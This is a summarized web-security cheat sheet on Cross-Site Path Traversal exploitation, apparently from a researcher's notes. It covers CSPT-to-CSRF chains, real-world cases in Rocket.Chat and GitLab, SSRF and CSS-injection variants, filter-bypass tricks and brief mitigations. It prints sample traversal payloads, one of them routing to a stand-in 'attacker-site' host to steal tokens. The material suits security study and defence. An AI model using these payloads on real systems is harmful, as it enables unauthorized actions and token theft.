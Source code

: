 
### **Cross-Site Path Traversal (CSPT) Exploitation Techniques**

Here’s a **summarized and organized version** of the key tips and techniques for exploiting **Cross-Site Path Traversal (CSPT)** vulnerabilities from the provided blog:

---

#### **1. Introduction to CSPT**
- **Definition**:  
  CSPT occurs when user-controlled input is used to manipulate file paths or resource URLs on the client side, leading to unauthorized access or resource manipulation.  
- **Impact**:  
  - Unauthorized access to sensitive files.  
  - Manipulation of client-side resources.  
  - Potential escalation to **Cross-Site Request Forgery (CSRF)** or **Server-Side Request Forgery (SSRF)**.  

---

#### **2. CSPT to CSRF (CSPT2CSRF)**
- **Concept**:  
  Exploit CSPT to reroute legitimate API requests to malicious endpoints, leading to CSRF attacks.  
- **Example**:  
  - **Source**: User-controlled input (e.g., URL parameters, DOM).  
  - **Sink**: API endpoint that shares the same host, headers, and body restrictions.  
  - **Exploitation**:  
    ```plaintext
    /marketplace/private/install?id=../../../api/v1/users.logoutOtherClients&url=https://google.com
    ```
  - **Impact**: Perform actions like logging out users or enabling 2FA without their consent.  

---

#### **3. Real-World CSPT Exploits**
1. **1-Click CSPT2CSRF in Rocket.Chat**:  
   - **Vulnerability**: Path manipulation in API endpoints.  
   - **Exploit**:  
     ```plaintext
     /marketplace/private/install?id=../../../api/v1/users.logoutOtherClients&url=https://google.com
     ```
   - **Impact**: Log out all user sessions or enable 2FA.  

2. **1-Click Cancel a Bank Card**:  
   - **Vulnerability**: Path traversal in invite links.  
   - **Exploit**:  
     ```plaintext
     /signup/invite?email=foo@bar.com&inviteCode=123456789/../../../cards/123e4567-e89b-42d3-a456-556642440000/cancel
     ```
   - **Impact**: Cancel a bank card without user consent.  

3. **CSPT Leading to 1-Click CSRF in GitLab**:  
   - **Vulnerability**: Manipulation of error IDs in Sentry integration.  
   - **Exploit**:  
     ```plaintext
     /api/v4/users/4?admin=true
     ```
   - **Impact**: Escalate user privileges or approve group memberships.  

---

#### **4. CSPT Combined with SSRF**
- **Exploit Scenario**:  
  - **Blind SSRF**: Requires an authorization header.  
  - **CSPT**: Manipulate paths to include SSRF payloads.  
  - **Example**:  
    ```plaintext
    /users?id=/../../example?url=https://attacker-site/?payload
    ```
  - **Impact**: Steal authentication tokens or perform unauthorized actions.  

---

#### **5. CSPT in CSS Injection**
- **Exploit**:  
  - **Vulnerability**: Unsanitized `color_scheme` parameter in CSS URLs.  
  - **Payload**:  
    ```plaintext
    /../../../api/2/idp/authorize/?client_id=CLIENT-ID&redirect_uri=/hci/callback&state=http://localhost/css/core.css
    ```
  - **Impact**: Load malicious CSS to exfiltrate user data.  

---

#### **6. CSPT Burp Extension**
- **Tool**: [CSPT Burp Extension](https://github.com/doyensec/CSPTBurpExtension).  
- **Features**:  
  - Automates CSPT detection and exploitation.  
  - Identifies sources and sinks for CSPT vulnerabilities.  
- **Limitations**:  
  - May miss DOM-based or stored sources without canary tokens.  
  - Ineffective against client-side routing.  

---

#### **7. Common Exploitation Techniques**
1. **URL Manipulation**:  
   - Use `?`, `#`, or `;` to truncate or add query parameters.  
   - Example:  
     ```plaintext
     /example?url=https://attacker.com?param=value
     ```

2. **HTTP Method Override**:  
   - Use headers like `X-HTTP-Method-Override` to change request methods.  
   - Example:  
     ```plaintext
     X-HTTP-Method-Override: PUT
     ```

3. **URL Encoding**:  
   - Encode or double-encode path parameters to bypass filters.  
   - Example:  
     ```plaintext
     /api/v1/users/%2F..%2F..%2Fadmin
     ```

4. **Lax Backend Validation**:  
   - Exploit backends that accept extra body or query parameters.  
   - Example:  
     ```json
     {"email":"foo@bar.com","admin":"true"}
     ```

---

#### **8. Prevention and Mitigation**
- **Input Validation**:  
  - Sanitize and validate all user-controlled inputs.  
- **Strict Path Handling**:  
  - Restrict path traversal characters (`..`, `/`).  
- **Secure Redirects**:  
  - Validate `redirect_uri` against a whitelist.  
- **Use Secure Frameworks**:  
  - Implement frameworks that prevent path manipulation.  

---

#### **9. Additional Resources**
- [Doyensec CSPT2CSRF Blog](https://www.doyensec.com/resources/Doyensec_CSPT2CSRF_OWASP_Appsec_Lisbon.pdf)  
- [USENIX Security Paper on CSPT](https://www.usenix.org/system/files/sec21-khodayari.pdf)  
- [GitHub CSPT Burp Extension](https://github.com/doyensec/CSPTBurpExtension)  

---
- https://sallam.gitbook.io/sec-88/web-appsec/cross-site-path-traversal-cspt#id-1-click-cspt2csrf-in-rocket.chat

- https://youtu.be/yGRRGUtT9MU?si=OLNg6eaQNplLuWag
